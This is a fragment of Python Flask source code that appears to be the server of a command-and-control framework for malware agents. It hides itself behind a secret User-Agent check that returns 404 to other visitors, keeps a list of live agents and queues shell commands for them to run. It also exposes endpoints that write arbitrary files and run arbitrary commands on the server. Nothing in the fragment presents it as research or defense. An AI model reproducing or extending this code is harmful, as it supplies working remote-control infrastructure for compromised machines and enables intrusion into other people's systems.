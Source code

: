 ```python
    if is_user_agent_keyed(request.headers.get('User-Agent')):     
        if uid in live_agents:
            if request.json:
                file = request.json["file"]
                if file in ["app.py", "aggressor.txt"]:
                    abort(404)
                data = request.json["data"]
                f = open(file ,"w")
                f.write(data)
                f.close()
                return "OK", 200
        else:
            return 401
    else:
        abort(404)


@app.route(f'/api/server/exec', methods=['POST'])
def post_server_exec():
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if request.json:
            cmd = request.json['cmd']
            res = system(f"{cmd}")
            return f"Command: {cmd} - Result code: {res}", 200
        else:
            return "Bad request", 400
    else:
        abort(404)


@app.route('/api/agents/<uid>/exec', methods=['GET', 'POST'])
def post_agent_exec(uid):
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if uid in live_agents:
            if request.method == 'GET':
                return f"EXEC: {uid}", 200
            if request.method == 'POST':
                if request.json:
                    global command_to_execute_next
                    command_to_execute_next = request.json["cmd"]
                    global command_stack_reset_flag
                    command_stack_reset_flag = False
                    msg = f"New commnad to execute: {command_to_execute_next}"
                    app.logger.debug(msg)
                    print(msg)
                    return msg, 200
                else:
                    return "Bad request", 400
            else:
                abort(404)
        else:
            abort(404)
    else:
        abort(404)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        return flask.render_template("index.html")
    else:
        abort(404)
```